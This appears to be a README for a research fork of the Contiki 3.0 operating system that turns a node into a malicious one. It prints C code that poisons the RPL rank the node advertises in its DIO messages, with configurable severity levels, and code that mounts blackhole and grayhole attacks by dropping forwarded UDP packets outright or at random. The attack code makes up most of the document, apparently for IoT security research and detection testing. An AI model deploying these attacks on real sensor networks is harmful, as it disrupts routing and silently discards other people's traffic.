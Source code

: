 This modified contiki version is part of the ![ASSET controller](https://github.com/SWNRG/ASSET) project.

Other versions of contiki-mailicous code


Changes in this contiki 3.0 for the malicious node:
General rule, all changes have a comment starting with // George
(Dont confuse it with George Oikonomou...)

set MALICIOUS_LEVEL in project.conf (from 0-4).
By default it has the value 2 in rpl-icmp6.c

core/net/rpl/rpl-icmp6.c
l514: poisoning the advertised rank of the malicious node.
You can choose "how much" to poison it.

/* ******************* POISONING DIOs **************************** */
  /* George Poisoining the DIO sent to neighbors:
   * The rank of the malicious node is fakely advertised as lower.
   * it can be three different levels: light, adequate, severe.
   * In all cases, if the malicious is closer to the sink, the rank
   * will be slightly above the sink's rank (So RPL will root 
   * normally from nodes via the malicious to the sink.
   * Sink's rank is usually 128, PARENT_SWITCH_THRESHOLD is 96 or 160.
   * A node's rank should not be lesser than the sink, hence it should 
   * be more than 128. Choose wisely....
   */
   int fake_rank; 
   switch(MALICIOUS_LEVEL){
	  case 4:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 4*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 3:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 				       	 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 3*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;	 
	  	 break;
	  case 2:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD > 
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - 2*PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break;
	  case 1:
		 fake_rank = dag->rank - 3*PARENT_SWITCH_THRESHOLD >
		 	 2*PARENT_SWITCH_THRESHOLD ?
			 dag->rank - PARENT_SWITCH_THRESHOLD : PARENT_SWITCH_THRESHOLD;		 
	    break; 
	  default: // All other number
 	  printf("No MALICIOUS_LEVEL set, NORMAL dag->rank\n");
 	  fake_rank = dag->rank;
  }
  printf("PARENT_SWITCH_THRESHOLD:%d, dag->rank:%d, fake:%d\n",
  			PARENT_SWITCH_THRESHOLD, dag->rank,fake_rank);
  set16(buffer, pos, fake_rank);
  //set16(buffer, pos, dag->rank);
  
  
  
uip6.c
l155
/* George variable to be set at the app layer by a malicious node */
uint8_t intercept_on = 0;

l1261: blackhole and grayhole attacks.
Intercepting UDP messages and either never forward them (blackhole),
or randomly decide (50%) whether to send it or not (greyhole).
define variables in project.conf (of the malicious node contiki).

/* ********** George ************************************ */      
/* George While intercept_on == 1 the "goto send;" is not on.
 * if !goto send; packets are not forwarded any more. 
 * Traffic is therefor intercepted by a malicious node.
 * TODO: you want to do something with this traffic?
 */  		
		
		 if(intercept_on == 1){ 	 
#ifdef GREY_SINK_HOLE_ATTACK
			 int sendON=(int)random_rand()%2;
			 if(sendON == 0){
			 	  printf("DATA INTERCEPTED from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  		 }else{ // sendOn !=0	  		
				  printf("DATA LET GO from: ");
			 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
			 	  printf(" travelling to node: "); 
	  			  printShortaddr(&UIP_IP_BUF->destipaddr);
	  			  printf("\n");	
	  			  
	  			  UIP_STAT(++uip_stat.ip.forwarded);
				  goto send;
	  		 }			 
#else
		 	  printf("DATA from: ");
		 	  printShortaddr(&UIP_IP_BUF->srcipaddr); 	
		 	  printf(" NEVER SENT to node: "); 
  			  printShortaddr(&UIP_IP_BUF->destipaddr);
  			  printf("\n");		 			 
#endif /* GREY_SINK_HOLE_ATTACK */	
 
	  	 }else{
	  
#if PRINT_ROUTE_ON  /* George Variable in project.conf */   
				printf("DATA UDP from: ");
				printShortaddr(&UIP_IP_BUF->srcipaddr);
				printf("	NORMALLY  pass to node: "); 
				printShortaddr(&UIP_IP_BUF->destipaddr);
				printf("\n");
#endif	
/* ****************************************************** */   


